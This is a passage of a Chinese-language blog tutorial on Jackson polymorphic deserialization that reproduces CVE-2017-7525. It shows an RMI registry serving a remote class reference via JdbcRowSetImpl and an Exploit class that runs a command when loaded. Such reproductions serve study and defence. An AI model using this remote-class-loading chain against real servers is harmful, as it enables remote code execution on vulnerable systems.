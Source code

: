 可以发现在json里面包含了类信息，这样在反序列化的时候，就能识别具体的类，这样就能反序列化成功；

#### JsonTypeInfo注解模式

此种模式需要针对每种类型做专门的处理，相对来说比较麻烦，我们需要在Fruit接口中做处理：

```java
@JsonTypeInfo(use = JsonTypeInfo.Id.NAME, include = JsonTypeInfo.As.PROPERTY, property = "type")
@JsonSubTypes(value = { @JsonSubTypes.Type(value = Apple.class, name = "a"),
        @JsonSubTypes.Type(value = Banana.class, name = "b") })
public interface Fruit {

}
```

可以发现如果发现是子类Apple，就用字符a代替；如果发现是子类Banana，就用字符b代替；序列化的结果如下：

```json
{"mode":"online","fruit":{"type":"b","name":"banana"}}
```

这种模式通过在json字符串中添加了具体类的type，这样在反序列化的时候也同样可以成功；

### 漏洞重现

以上介绍了两种jackson在解决多态问题的方案，那问题出在哪里；其实问题的根源就出在**全局DefaultTyping机制**中对生成的json字符串中包含了类信息，这样对攻击者来说就相当于留了一个后门，可以通过在json字符串中传入一些特殊的类，对服务器引发灾难性后果；上面也提到此问题其实在(CVE-2017-7525)漏洞中已经出现，这里可以做一个简单模拟；

#### CVE-2017-7525重现

当时要求的版本是不低于2.8.9，这里直接使用此版本来模拟；

```xml
<dependency>
	<groupId>com.fasterxml.jackson.core</groupId>
	<artifactId>jackson-databind</artifactId>
	version>2.8.10</version>
</dependency>
```

一个常见的攻击类是：**com.sun.rowset.JdbcRowSetImpl**，此类的dataSourceName支持传入一个rmi的源，然后可以设置autocommit自动连接，执行rmi中的方法；
这里首选需要准备一个RMI类：

```java
public class RMIServer {
    public static void main(String argv[]) {
         Registry registry = LocateRegistry.createRegistry(1098);
         Reference reference = new Reference("Exploit", "Exploit", "http://localhost:8080/");
         registry.bind("Exploit", new ReferenceWrapper(reference));
    }
}
```

这里的Reference指定了类名，以及远程地址，可以从远程服务器上加载class文件来实例化；准备好Exploit类，编译成class文件，然后把他放在本地的http服务器中即可；

```java
public class Exploit {
    public Exploit() {
         Runtime.getRuntime().exec("calc");
    }
}
```
